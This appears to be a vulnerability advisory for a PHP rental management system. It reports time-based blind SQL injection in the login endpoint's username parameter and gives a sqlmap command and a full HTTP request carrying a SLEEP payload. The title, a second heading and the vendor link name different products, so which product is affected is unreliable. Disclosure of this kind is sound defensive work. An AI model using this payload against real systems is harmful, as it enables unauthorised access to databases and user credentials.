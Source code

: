 # rental management system SQL injections
#Accounts Manager App SQL injections
#Description
The system  doesn't properly sanitise POST parameter, which result SQL injections.
#Vendor Homepage
[https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html](https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html)

#Author
[lsi.webray.com.cn](https://github.com/lscjl/lsi.webray.com.cn) inc

1.The problem parameter is the username parameter at the login interface

![image](images/ekQYUVzvO-_HvHae6XMu-VgF10nGDY_Qo4zemUjRoZg.png)

2.SQLMap Validation Vulnerability Hazards

python sqlmap.py -r 1.txt

![image](images/S_x4ue6tEL4GfVPBEIdVG_Mc2AMrByEEMqtaX8yJJ-w.png)

POST /rental\_0/rental/ajax.php?action=login HTTP/1.1

Host:127.0.0.1

Content-Length: 122

Accept: \*/\*

X-Requested-With: XMLHttpRequest

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36 Edg/123.0.0.0

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

Origin: http://192.168.11.154

Referer: http://192.168.11.154/rental\_0/rental/login.php

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

Cookie: PHPSESSID=sv4njs94vagt2kqaletdia48gs

Connection: close



username=mayuri.infospace@gmail.com' AND (SELECT 5800 FROM (SELECT(SLEEP(5)))DBob) AND 'VqER'='VqER&password=rootadmin1111